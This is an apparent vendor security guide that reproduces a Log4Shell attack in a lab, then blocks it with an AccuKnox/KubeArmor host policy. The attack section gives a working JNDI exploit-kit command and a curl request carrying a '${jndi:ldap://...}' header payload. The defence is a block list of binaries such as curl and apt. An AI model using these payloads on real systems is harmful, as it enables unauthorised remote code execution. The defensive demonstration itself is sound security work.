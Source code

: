 ```yaml
---
title: Defending Against Log4Shell
description: Secure your VMs from Log4Shell exploits with AccuKnox Runtime Security and KubeArmor. Detect, block, and mitigate attacks fast.
---
```


# Defending Against Log4Shell

The Log4Shell vulnerability (CVE-2021-44228) has demonstrated the critical need for robust runtime security in modern IT infrastructures. Attackers exploit this vulnerability by injecting malicious code via the vulnerable Log4j library, often leading to unauthorized system access. Here, we will show how to secure your virtual machines (VMs) against such attacks using **AccuKnox Runtime Security** and **KubeArmor**.

## Setting the Stage: The Attack Environment

Log4Shell leverages the **JNDI lookup functionality** in vulnerable Log4j versions. Attackers can trigger remote code execution by simply injecting a malicious payload into log messages.

## **The Victim: A Vulnerable Web Server**

The environment requires **Java 1.8.0_181** or a compatible version to simulate the attack.

![image-20241226-090600.png](./images/vm-log4shell/1.png)

Begin by cloning the vulnerable application repository from GitHub. This repository contains a Log4j-vulnerable application designed for testing.

`git clone https://github.com/christophetd/log4shell-vulnerable-app && cd log4shell-vulnerable-app`

After cloning the repository, navigate to the directory and build the application using Gradle. The command `./gradlew bootJar --no-daemon` compiles the application and prepares it for execution.

![image-20241226-090724.png](./images/vm-log4shell/2.png)

Once the build process completes, navigate to the `build/libs` directory and launch the application using Java. At this point, the application runs locally, simulating a system with the Log4Shell vulnerability.

`/opt/jdk/jdk1.8.0_181/bin/java -jar ./log4shell-vulnerable-app-0.0.1-SNAPSHOT.jar`

![image-20241226-101932.png](./images/vm-log4shell/3.png)

## Attack Scenario

The **Log4Shell** exploit allows attackers to manipulate vulnerable systems by injecting malicious payloads into application logs. The injected payload triggers a **JNDI lookup**, fetching an attacker-controlled resource and executing unauthorized code.

For example, an attacker might craft a payload using a **JNDI exploit kit**:

`java -jar JNDI-Exploit-Kit.jar -L localhost:1389 -C "curl http://localhost:9001"`

![image-20241226-101547.png](./images/vm-log4shell/4.png)

Prepare the HTTP server for reverse connection

`docker run --rm -p 9001:9001 hashicorp/http-echo -listen=:9001 -text="hello"`

This payload exploits the vulnerability, allowing the attacker to execute commands such as `curl`.

`curl http://172.16.250.140:8080/ -H 'X-Api-Version: ${jndi:ldap://172.16.250.141:1389/gog049}'`

As shown in the screenshot below, we observed the following, confirming the successful exploitation of Log4Shell:

- **LDAP server hit:** Indicates the vulnerable application initiated the JNDI lookup as instructed by the payload.

- **HTTP request:** Confirms the application executed the payload, triggering an HTTP request via the `curl` command.

![image-20241226-101653.png](./images/vm-log4shell/5.png)

![image-20241226-101713.png](./images/vm-log4shell/6.png)

![image-20241226-101751.png](./images/vm-log4shell/7.png)

## Securing Against Log4Shell Exploits with AccuKnox Runtime Security

AccuKnox Runtime Security offers real-time protection to defend against unauthorized or malicious activities by enforcing precise security policies within your environment. By leveraging AccuKnox's policy-driven approach, organizations can effectively block exploitation attempts like Log4Shell and safeguard sensitive assets from unauthorized access.

Let's walk through the steps to protect VMs from such attacks using **AccuKnox Runtime Security**:

**Ensure AccuKnox Runtime Security is Configured:** For virtual machines (VMs) environments, you can onboard them to the AccuKnox platform to extend runtime security capabilities. Follow the instructions provided in the official documentation: [Onboarding and Deboarding VMs with Systemd](https://help.accuknox.com/how-to/vm-onboard-deboard-systemd/ "https://help.accuknox.com/how-to/vm-onboard-deboard-systemd/"). By onboarding your VMs, you enable AccuKnox to monitor and protect workloads hosted on them, ensuring a comprehensive security posture.

![image-20241227-022828.png](./images/vm-log4shell/8.png)

![image-20241227-023020.png](./images/vm-log4shell/9.png)

**Navigate to Policies**: In the AccuKnox dashboard, access the **Policies** section under the **Runtime Security** tab. This is where you can define and enforce security rules to block exploitation attempts like the Log4Shell vulnerability.

![image-20241227-023424.png](./images/vm-log4shell/10.png)

**Apply Policies to Block Exploits**: Deploy relevant KubeArmor policies to restrict malicious behavior. For example, you can block unauthorized execution commands or access to sensitive resources by applying the following policy:

![image-20241226-103354.png](./images/vm-log4shell/11.png)

```yaml
apiVersion: security.kubearmor.com/v1
kind: KubeArmorHostPolicy
Policymetadata:
  name: disallow-exec
spec:
  severity: 1
  message: "disallow unwanted execings"
  nodeSelector:
    matchLabels:
      kubearmor.io/hostname: "*"
  process:
    matchPaths:
    - path: /usr/bin/apt
    - path: /usr/bin/apt-get
    - path: /bin/apt
    - path: /bin/apt-get
    - path: /usr/bin/dpkg
    - path: /bin/dpkg
    - path: /usr/bin/gdebi
    - path: /bin/gdebi
    - path: /usr/bin/make
    - path: /bin/make
    - path: /usr/bin/yum
    - path: /bin/yum
    - path: /usr/bin/rpm
    - path: /bin/rpm
    - path: /usr/bin/dnf
    - path: /bin/dnf
    - path: /usr/bin/pacman
    - path: /usr/sbin/pacman
    - path: /bin/pacman
    - path: /sbin/pacman
    - path: /usr/bin/makepkg
    - path: /usr/sbin/makepkg
    - path: /bin/makepkg
    - path: /sbin/makepkg
    - path: /usr/bin/yaourt
    - path: /usr/sbin/yaourt
    - path: /bin/yaourt
    - path: /sbin/yaourt
    - path: /usr/bin/zypper
    - path: /bin/zypper
    - path: /usr/bin/curl
  action: Block
metadata:
  name: disallow-exec
```

This policy ensures that malicious commands such as `curl` or `apt`, commonly used during exploitation attempts, are effectively blocked.

After enforcing the policy, AccuKnox Runtime Security triggers an alert if there are any violations. This alert provides detailed insights into the blocked exploit attempt, including information about the source of the malicious request, enabling you to monitor and respond to threats in real-time effectively

![image-20241226-102918.png](./images/vm-log4shell/12.png)

![image-20241226-103019.png](./images/vm-log4shell/13.png)
